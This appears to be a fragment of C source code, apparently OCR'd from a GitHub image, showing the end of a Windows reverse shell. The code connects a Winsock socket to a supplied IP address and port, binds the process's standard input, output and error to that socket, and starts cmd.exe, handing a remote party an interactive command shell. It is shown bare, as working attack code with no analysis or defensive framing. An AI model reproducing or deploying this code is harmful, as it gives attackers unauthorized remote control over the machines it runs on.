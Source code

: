 ```C
    hax.sin_family = AF_INET;
    hax.sin_port = htons(atoi(port));
    hax.sin_addr.s_addr = inet_addr(ip_addr);

    WSAConnect(Winsock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&ini_processo, 0, sizeof(ini_processo));
    ini_processo.cb = sizeof(ini_processo);
    ini_processo.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW; 
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    TCHAR cmd[255] = TEXT("cmd.exe");

    CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    return 0;
}
```
